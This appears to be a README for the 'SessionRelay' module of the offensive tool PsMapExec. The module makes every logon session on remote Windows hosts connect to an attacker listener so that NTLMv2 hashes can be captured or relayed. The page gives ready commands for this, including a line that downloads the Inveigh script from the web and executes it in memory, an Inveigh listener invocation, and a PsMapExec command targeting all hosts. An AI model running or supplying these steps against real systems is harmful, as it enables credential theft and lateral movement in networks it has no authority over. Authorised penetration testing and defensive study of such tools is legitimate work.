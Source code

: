# SessionRelay

Creates a cmd.exe process as each user logon session on the remote system and connects back to a non-existent share to the host specified by -ListenerIP. This can then be used with tools such as Inveigh or Responder to capture NTLMv2 hashes, or with ntlmrelayx to relay captured hashes.

# Usage

Before using the module, ensure a listener such as Inveigh or Responder is running. The below example covers usage for capturing hashes with Inveigh.

### Load Inveigh into memory

    iex (iwr -UseBasicParsing https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)

### Execute Inveigh (as admin), ensuring to specify the current systems IP address

    Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -IP 10.10.10.7

### Run PsMapExec, ensuring -ListenerIP is set to the same IP address as above.

    PsMapExec [Method] -Targets all -Module sessionrelay -ListenerIP 10.10.10.7

# Optional Parameters

### 1) Displays each targets output to the console

    -ShowOutput

### 2) Display only successful results

    -SuccessOnly

# Supported Methods

1) SMB 

2) SessionHunter

3) WMI 

4) WinRM
